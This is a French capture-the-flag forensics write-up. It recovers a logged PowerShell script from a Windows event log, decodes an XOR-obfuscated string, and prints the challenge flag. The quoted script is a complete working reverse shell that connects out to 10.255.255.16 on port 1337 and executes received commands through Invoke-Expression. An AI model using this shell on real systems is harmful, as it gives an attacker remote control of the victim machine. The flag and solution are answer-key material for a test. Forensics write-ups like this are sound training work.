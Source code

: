 # Forensics - La Gazette Windows

## Challenge description

![Challenge description](./imgs/desc_forensics_gazette_windows.PNG)

## Résolution

En regardant le fichier, on se rend compte qu'il s'agit d'un fichier de type `Windows Event Log` (extension `.evtx`).

On peut l'ouvrir sous windows, avec l'observateur d'évènements. On voit alors qu'un script powershell a été exécuté. 

```powershell
    Création du texte Scriptblock (1 sur 1) : 
    do {
        Start-Sleep -Seconds 1
        try{
            $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
        } catch {}
    } until ($TCPClient.Connected)
    $NetworkStream = $TCPClient.GetStream()
    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
    WriteToStream $s
    while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
        $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
        $Output = try {
                Invoke-Expression $Command 2>&1 | Out-String
            } catch {
                $_ | Out-String
            }
        WriteToStream ($Output)
    }
    $StreamWriter.Close()
```

En lisant le code, on se rend compte qu'il faut récupérer la chaîne de caractères `$s` et la décoder. La chaine `$s` est fabriquée à partir de `$l`. 
Comme c'était un script powershell, on peut tout simplement récupérer `$l` et `$s` avec ce code :

```powershell
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
```

Puis on affiche `$s` :

```powershell	
    PS C:\Users\user\Desktop> $s
    FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}
```